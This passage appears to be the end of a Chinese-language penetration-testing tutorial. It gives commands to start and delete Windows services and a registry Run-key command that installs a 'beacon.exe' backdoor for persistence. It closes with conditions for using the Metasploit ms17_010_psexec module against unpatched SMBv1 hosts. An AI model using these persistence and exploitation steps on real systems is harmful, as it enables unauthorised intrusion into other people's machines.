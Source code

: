 ```
shell net start "name"
```

<br>

删除服务

```
shell SC delete "name
```

<br>

### 创建注册表后门

将`/d`后的文件路径修改成后门程序的路径

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\\beacon.exe" /f
```

<br>

# 总结

## 1.`ms17_010_psexec`模块的利用条件

- 防火墙必须允许SMB流量出入
- 目标必须使用SMBv1协议
- 目标必须缺少MS17-010补丁
- 目标必须允许匿名IPC $和管道名



## 2.使用`ms17_010_psexec`模块有几率导致蓝屏

<br>

## 3.开启远程服务和关闭防火墙需要管理员权限

<br>
